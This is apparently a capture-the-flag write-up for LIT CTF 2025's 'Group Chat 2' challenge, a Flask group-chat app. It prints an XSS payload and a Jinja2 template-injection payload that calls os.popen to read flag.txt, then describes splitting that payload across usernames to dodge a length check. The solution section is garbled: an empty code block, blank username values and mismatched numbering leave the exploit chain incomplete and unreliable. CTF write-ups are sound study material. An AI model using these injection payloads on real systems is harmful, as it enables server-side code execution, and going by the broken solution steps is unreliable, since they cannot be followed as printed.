



# WhiteDukesDZ - LIT CTF 2025 Writeup: Group Chat 2 Challenge



We were also provided with the `main.py` file as part of this challenge.

---

## Challenge Summary

This challenge presented a simple Python Flask web application simulating a group chat. The goal was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Provided Files
- `main.py` (Flask web app)
- Challenge image (see above)

## Application Analysis

After reviewing `main.py`, we identified three main endpoints:

1. **`/` (Home):**
    - If `username` is not set in the session, redirects to `/set_username`.
    - Otherwise, renders the chat page.

2. **`/set_username`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, displays a username form.
    - On `POST`, verifies the provided `username`:
      - If `username` length > 14, registration is refused.
      - If `username` contains both `{` and `}`, registration is refused.
      - Otherwise, registration is accepted and redirects to `/`.

3. **`/send_message`:**
    - Accepts only `POST` requests with a `message`.
    - If `username` is not set in session, redirects to `/set_username`.
    - If `message` contains non-alphanumeric symbols, message is refused.
    - Otherwise, message is added to `chat_logs` as `username: message` and redirects to `/`.

### Security Observations

- The `/set_username` endpoint does not filter for XSS payloads in the `username` field. For example, setting `username` to `<script>alert('WhiteDukesDZ')</script>` and sending a message will execute the JavaScript payload:

  

- However, since the code executes only on the client side and there is no admin bot, this XSS cannot be leveraged to obtain the flag.

### Template Rendering

The chat logs are rendered as follows:

```python
<div id="chat-box">''' + '<br>'.join(chat_logs) + '''
</div>
```

If `chat_logs` is:

```python
chat_logs = [
     "username1: message1",
     "username2: message2",
     ...
     "usernameN: messageN" 
]
```

It will be rendered as:

```html
username1: message1<br>username2: message2<br>...<br>usernameN: messageN
```

And since we can control both `username`, `message`, we certainly can cause a <ins>Server Side Template Injection</ins>

To confirm the possibility of a <ins>Server Side Template Injection (SSTI)</ins>, we can leverage our control over both `username` and `message` fields. This allows us to attempt injecting a Jinja2 payload that could execute server-side code.

**Local Testing:**
1. Create a `flag.txt` file in the same directory as `main.py`:
  ```sh
  echo "FLAG{REDACTED}" > flag.txt
  ```
2. Modify the template in `main.py` for the `/` route to include a test payload that reads the contents of `flag.txt`:
  ```python
  <div>{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}</div>
  ```
3. Run the Flask app locally:
  ```sh
  python3 main.py
  ```
4. Visit `http://localhost:5000`, set a `username`, and navigate to `/`. You should see the contents of `flag.txt` displayed on the page.



However, on the remote instance, we cannot modify `main.py` directly. Therefore, our goal is to inject a payload through user input that results in the template rendering something like:

```html
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

by carefully crafting the values of `username` and `message`.
---

## Solution

To exploit the SSTI vulnerability and retrieve the flag, our goal was to make the rendered chat log look like:

```python
{{cycler.__init__.__globals__.os.popen('cat flag.txt').read()}}
```

Since we control both `username` and `message`, we can't just split the payload across two users/messages:

- `username1 = {{cycler.__init__.__globals__.os.popen('cat flag.txt`
- `message1 = dummy`
- `username2 = '[:12]).read()}}`
- `message2 = dummy`

Since we will hit the len(`username`) > 14 condition. We need to find another approach.

We can split our payload into smaller parts by using variables:

```python








{{h()}}
```

Since we need to produce the above payload without hitting the constraint of len(`username`) > 14:

``
- `username1 = `
- `message2 = dummy`

``
- `username3 = `
- `message5 = dummy`

``
- `username6 = `
- `message8 = dummy`

``
- `username9 = `
- `message10 = dummy`

``
- `username11 = `
- `message13 = dummy`

``
- `username14 = `
- `message16 = dummy`

``
- `username17 = `
- `message18 = dummy`

``
- `username19 = `
- `message21 = dummy`

`{{h()}}`
- `username22 = {{[h,'`
- `message22 = dummy`
- `username23 = '][0]()}}`
- `message23 = dummy`


which is functionally equivalent to our intended payload, as the injected `<br>` and extra characters are ignored by the Python slice or the array technique.

We automated this process in `solution/solve.py`. To run the exploit against the remote instance provided by LIT CTF:

```sh
python3 solve.py
```

If successful, the script will output the flag:

```sh
Username set successfully.
Message sent successfully.
...
Username set successfully.
Message sent successfully.
LITCTF{c4n7_y0u_b3l13v3_us3rn4m35_c0uld_b3_1000_ch4r5_10ng_b3f0r3??}
```


